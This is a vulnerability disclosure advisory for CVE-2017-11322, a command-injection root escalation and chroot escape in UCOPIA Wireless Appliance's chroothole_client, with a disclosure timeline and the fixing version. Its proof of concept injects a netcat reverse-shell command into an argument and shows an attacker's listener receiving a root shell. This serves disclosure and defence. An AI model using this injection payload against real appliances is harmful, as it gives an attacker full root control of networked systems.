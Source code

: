 # [CVE-2017-11322] UCOPIA Wireless Appliance < 5.1.8 Privileges Escalation

## Asset description

UCOPIA solutions bring together a combination of software, appliance and cloud services serving small to large customers.

More than 12,000 UCOPIA solutions are deployed and maintained by UCOPIA expert partners all over the world.

The affected asset in this report is a WiFi management appliance.

## Vulnerability

CHROOT escape and privileges escalation.

**Threat**

Improper sanitization of system commands in the chroothole_client executable in UCOPIA Wireless Appliance, prior to 5.1.8, allows local attackers to elevate privileges to root user and escape from the *chroot*.

**CVE ID**: CVE-2017-11322

**Access Vector**: local

**Security Risk**: high

**Vulnerability**: CWE-78

**CVSS Base Score**: 8.2 (High)

**CVSS Vector**: CVSS:3.0/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept: chroot escape / privileges escalation

The **chroothole_client** binary is used by the appliance to run programs outside the *chroot*, as the **root** user.

Because of an improper sanitization of system commands, we managed to gain a complete **root** access to the appliance, outside the *chroot*.

```
$ chroothole_client '/usr/sbin/status'
is not running ... failed !
$ chroothole_client '/usr/sbin/status $(which nc)'
/bin/nc is not running ... failed!
$ chroothole_client '/usr/sbin/status $(nc 10.0.0.125 4444 -e /bin/sh)'
```

Attacker terminal :

```
$ ncat -lvp 4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.1:49156.
whoami
root
```

## Solution

Update to UCOPIA 5.1.8

## Timeline (dd/mm/yyyy)

* 08/03/2017 : Vulnerability discovery.
* 03/05/2017 : Initial contact.
* 10/05/2017 : GPG Key exchange.
* 10/05/2017 : Advisory sent to vendor.
* 17/05/2017 : Request for feedback.
* 22/05/2017 : Vendor acknowledge the vulnerabilities.
* 21/06/2017 : Sysdream Labs request for an ETA, warning for public disclosure.
* 21/06/2017 : Vendor say that the UCOPIA 5.1.8 fixes the issue.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas CHATELAIN, Sysdream (n.chatelain -at- sysdream -dot- com)

-- 
SYSDREAM Labs <labs@sysdream.com> 
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1 
* Website: https://sysdream.com/ 
* Twitter: @sysdream